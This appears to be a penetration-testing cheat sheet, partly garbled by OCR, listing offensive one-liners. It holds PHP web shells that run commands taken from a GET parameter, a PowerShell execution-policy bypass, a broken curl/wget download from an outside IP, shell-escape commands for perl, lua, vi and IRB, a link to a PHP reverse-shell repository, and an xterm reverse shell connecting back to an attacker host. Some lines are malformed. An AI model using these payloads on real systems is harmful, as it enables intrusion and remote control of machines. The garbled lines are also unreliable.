 #PHP  
PHP command injection from GET Request  
`<?php echo system($_GET["cmd"]);?>`  
  
Alternative  
`<?php echo shell_exec($_GET["cmd"]);?>`  
  
#Powershell  
Non-interactive execute powershell file  
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1  
`  
  
  
Misc  
More binaries Path  
`export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ucb/`  
    
#curl Shell  
\[curl -s –data “cmd=wget [http://](http://174.0.42.42:8000/dhn%C2%A0-O)x.x.x.x


# Different Shells
#shell 

echo os.system('/bin/bash')  
  
/bin/sh -i  
  
perl —e 'exec "/bin/sh";'  
  
perl: exec "/bin/sh";  
  
lua: os.execute('/bin/sh')  
  
IRB: exec "/bin/sh  
  
vi: :!bash  
  
:set shell=/bin/bash:shell  
  
vim ':!bash'

# Windows Shell
#windows_shell

[https://github.com/Dhayalanb/windows-php-reverse-shell](https://github.com/Dhayalanb/windows-php-reverse-shell)

### xterm
#xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
